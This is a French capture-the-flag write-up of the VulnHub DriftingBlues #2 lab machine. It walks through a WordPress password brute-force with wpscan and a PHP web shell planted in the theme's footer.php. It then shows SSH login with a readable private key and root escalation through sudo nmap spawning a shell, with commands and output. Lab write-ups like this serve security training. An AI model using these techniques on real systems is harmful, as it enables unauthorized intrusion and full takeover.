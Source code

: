 # Solution du CTF DriftingBlues #2 de VulnHub

Intro
-----

Après [le précédent opus](http://devloop.users.sourceforge.net/index.php?article249/solution-du-ctf-driftingblues-1-de-vulnhub) j'attaque donc ce second épisode des CTF DriftingBlues, toujours téléchargeable sur VulnHub  

```plain
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
| ftp-anon: Anonymous FTP login allowed (FTP code 230) 
|_-rwxr-xr-x   1 ftp      ftp       1403770 Dec 17  2020 secret.jpg 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Il y a un serveur FTP qui autorise les connexions anonymes comme nous le montre Nmap. Toutefois avec Filezilla on voit qu'on ne peut pas remonter dans l'arborescence. On a donc que ce fichier *secret.jpg* que l'on peut récupérer.  

Il s'agit d'une photo d'un guitariste et un coup d'éditeur hexa ou la récupération des métadonnées EXIF avec le premier logiciel de traitement photo trouvé ne sortent rien d'intéressant.  

Une recherche d'image inversée nous apprend que le guitariste est *Otis Rush*. Potentiellement un indice.  

Utiliser les outils de stéganographie est souvent une plaie. Le code est ancien et ne compile pas forcément sur des machines récentes. J'ai trouvé [une image Docker](https://hub.docker.com/r/dominicbreuker/stego-toolkit)
 qui contient les binaires utiles, c'est l'occasion d'essayer :  

```plain
$ docker run -it --rm -v $(pwd):/data dominicbreuker/stego-toolkit /bin/bash
root@eb06c29f1622:/data# stegdetect secret.jpg  
secret.jpg : negative
```

Oups... Les autres outils présents n'ont pas été plus utiles. Passons à autre chose.  

La force
--------

Via énumération sur le serveur web on trouve très vite un Wordpress à l'adresse */blog*. Les posts présents ont tous été créés par un utilisateur baptisé *albert*.  

Vu que j'avais du temps AFK j'ai lancé wpscan pour bruteforcer le compte avec la wordlist rockyou :  

```plain
$ docker run -v /tools/wordlists/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.7/blog/ -U albert -P /data/rockyou.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: albert, Password: scotland1
```

Je suppose qu'il y avait un indice avec le guitariste mais même en regardant sa page wikipedia pas de rapport à L'Ecosse, peut être qu'un des posts en faisait mention :-/   

Quoiqu'il en soit une fois connecté sur l'interface admin du Wordpress on va dans *Appeareance* puis *Theme Editor* pour éditer l'un des fichiers PHP du thème courant (*footer.php* pour moi) :  

```php
<?php if (isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>
```

Comme ça je peux passer des commandes sur le Wordpress et obtient l'output en bas de page.  

Mercury
-------

Un des premiers réflexes est de regarder le fichier */etc/passwd* qui nous renseigne sur les utilisateurs présents :  

```plain
freddie:x:1000:1000:freddie,,,:/home/freddie:/bin/bash
```

Cet utilisateur dispose du flag *user.txt* qui ne nous est pas lisible. En revanche sa clé privée SSH l'est !  

```plain
www-data@driftingblues:/var/www/html/blog$ ssh -i /home/freddie/.ssh/id_rsa freddie@127.0.0.1 
Could not create directory '/var/www/.ssh'. 
load pubkey "/home/freddie/.ssh/id_rsa": Permission denied 
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established. 
ECDSA key fingerprint is SHA256:/+Mlgo9EqzVybvI0rol0jnjKctAvhqRyag+YeY+IMrs. 
Are you sure you want to continue connecting (yes/no)? yes 
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts). 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
freddie@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 
```

GTFO
----

```plain
freddie@driftingblues:~$ sudo -l 
Matching Defaults entries for freddie on driftingblues: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

User freddie may run the following commands on driftingblues: 
    (root) NOPASSWD: /usr/bin/nmap
```

*Freddie* peut utiliser Nmap en tant que root sans donner de mot de passe. Pratique mais faillible [d'après GTFObins](https://gtfobins.github.io/gtfobins/nmap/) :  

```plain
freddie@driftingblues:~$ echo 'os.execute("/bin/sh")' > command.py
freddie@driftingblues:~$ sudo /usr/bin/nmap --script=command.py 
Starting Nmap 7.70 ( https://nmap.org ) at 2022-01-19 13:30 CST 
NSE: Warning: Loading 'command.py' -- the recommended file extension is '.nse'. 
# uid=0(root) gid=0(root) groups=0(root) 
# # root.txt 
# flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Cette exploitation cache l'input d'où l'absence des commandes dans l'affichage précédent.  


*Published January 19 2022 at 21 01*
